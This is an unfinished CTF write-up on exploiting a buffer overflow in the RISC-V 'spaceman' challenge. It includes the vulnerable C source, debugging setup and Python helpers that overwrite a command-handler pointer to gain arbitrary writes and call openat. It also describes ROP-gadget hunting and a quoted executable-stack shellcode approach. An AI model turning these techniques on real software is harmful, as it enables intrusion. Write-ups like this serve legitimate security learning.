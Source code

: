 I worked on this challenge for the entirety of the CTF. I mean I took a break from it for a little to do all of the beginner-pwn challenges so I could have at least contributed, but this was the real challenge I worked on. And to be honest, even though I didn't solve it after over 20 hours of working on it, I definitely learned a lot. 

Lets start by running checksec and file.

```
[*] '/home/papichulo/Desktop/ExploitDev/LiveCTF/BuckeyeCTF/spaceman-chal/spaceman'
    Arch:       riscv64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
```

```
spaceman: ELF 64-bit LSB executable, UCB RISC-V, RVC, double-float ABI, version 1 (SYSV), statically linked, for GNU/Linux 4.15.0, with debug_info, not stripped
```

First of all, this challenge is very unique with the fact that this runs on the `RISC-V` architecture, which changes things up quite a bit. Also not just that, but the challenge is statically linked and it never calls system, so anything ret2libc/one_gadget related is out of the window (not that one gadget would have even worked because this is a different architecture).

Also before starting, I had to find out how to debug the program since it runs on a different architecture and GDB would crap itself. Anyways what I did is that I had to run the binary in QEMU and send it into a localhost port, and then send a gdb script to that port like so.

```python
import gdb

binary = "spaceman"

gdb.execute(f"file {binary}")
gdb.execute("set architecture riscv:rv64")
gdb.execute("target remote localhost:1234")
```

Anyways, looking at the program, the bug is here.

```c
   6   │ #define CMD_SIZE 0x10
   7   │ 
   8   │ char CMD_BUF[CMD_SIZE] = { 0 };
   9   │ 
  10   │ void handle_echo();
  11   │ void handle_dish();
  12   │ void handle_engines();
  13   │ void handle_shields();
  14   │ void handle_status();
  15   │ void handle_help();
  16   │ 
  17   │ struct {
  18   │     char *cmdName;
  19   │     void (*handler)();
  20   │ } CMD_HANDLERS[] = {
  21   │     "help", handle_help,
  22   │     "echo", handle_echo,
  23   │     "dish", handle_dish,
  24   │     "engines", handle_engines,
  25   │     "shields", handle_shields,
  26   │     "status", handle_status,
  27   │ };
  28   │ 
  29   │ void get_command() {
  30   │     memset(CMD_BUF, 0, CMD_SIZE);
  31   │     printf("COMMAND> ");
  32   │     if (!fgets(CMD_BUF, 0x20, stdin)) {
  33   │         exit(1);
  34   │     }
```

So the program creates a `0x10` sized chunk but then the `fgets()` call tries to put `0x20` bytes into the buffer, overwriting the first struct in `CMD_HANDLERS[]`. This means that overwriting `handle_help` with an address of our choice will let us run whatever function we want, and because the program is statically linked with `fnoPIE`, we will not need any leaks. Also, what I realized was that the registers at the time of calling the `handle` functions will be as goes: `a0` will always equal 0, `a1` is the string of our command in hex form, and `a2` will be the length of the command.

Now with this in mind, my [friend](https://github.com/SolarDebris) found that we can call `read()` on any address and whatever we put in `stdin` next, will be written there. The only problem is that the address is technically 3 bytes long (since there will be null bytes after that) and then because of that, we only overwrite 3 bytes at a time. 

So what I thought of doing was, finding a pointer whose value points to the address of another pointer, whose value points to the address of another pointer, whose value points to the address that we want to modify. And after a little while of looking for that in Ghidra, I finally found it.

```
0x8a488 => 0x8a2b8 => 0x8a518 => writeable memory
```

With this in mind, I created some helper functions. At the time when I tested it I accidentally ended the address in `b` insted of `8` so I thought there was something wrong with my function and I kind of made it a little boofed, but it worked and I was mostly busy on trying to get the flag and not on how well I made my functions. Anyways here they are:

```python
def write_three_bytes(io, p_addr, addr, data): 
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["read"]) # make look up table point to anywhere
    
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))

    sl(io, data)
    
def write_data(io, pp_addr, p_addr, addr, data):
    # for some reason the function is being weird
    # so instead of fixing it I am just gonna add something to cope with it
    # spoken like a true programmer
    data = b"AAA\x00\x00" + data

    for i in range(int(len(data) / 3)):
        print(data[i * 3: i * 3 + 3])
        write_three_bytes(io, p_addr, addr, data[i * 3: i * 3 + 4])
        addr += 3

        write_three_bytes(io, pp_addr, p_addr, p32(addr))

```

After that, what we tried to do was write the address of the flag into memory and then call the `open_at()` function because the `param_2` is what is the char pointer.

```python
def open_at(io, p_addr, addr):
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["openat"]) # make look up table point to anywhere
    
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))
```

After this we kind of got stuck, then what my friend thought to do was to start a ROP chain so that is what we did. Only problem is that ROP in RISC-V kind of sucks. For some reason, `ropper` won't even try to find gadgets and also, `ROPgadget` will not ever give us a `ret`, so after reading up a bit, I found that `c.jr ra` is the equivalent. So with that in mind, we started trying to construct ROP chains for the next few hours, and even got an [extra hand](https://github.com/Pwnut). 

This is where we got stumped, we tried a lot of things but none of them worked. One good thing that did come out of this though is that I started getting more and more comfortable reading a RISC-V manual throughout the process and started to learn a lot about the architecture. 

In the end, we were in the right path to the intended solution. We just needed more time to keep looking at ROP gadgets and to find what the author called, `the magic gadget`. 

EDIT: turns out ROPgadget did not even show us the gadget we needed. I actually am so pissed off about that now, this sucks.
EDIT 2: I found out how to find it, I had to go through and run `objdump` on the binary and then grepped for the specific gadgets. This is so tragic.

One thing that I did find interesting though, was a specific person's solve. His username on Discord was `lobob-rondo` and he said what he did was and I quote "leak stack, call `__nptl_change_stack_perm` to make stack executable and shellcode". So what I found interesting was that, first ofall, you can leak the stack through `libc_environ`. But most importantly, THERE IS A FUNCTION THAT WILL CHANGE THE STACK TO BE EXECUTABLE!!!! LIKE WHAT????? WHY IS THAT THERE??????? 

Anyways that is a good thing to know for future CTFs. This challenge was very fun and I got quite a bit out of it. Overall great challenge!!!!

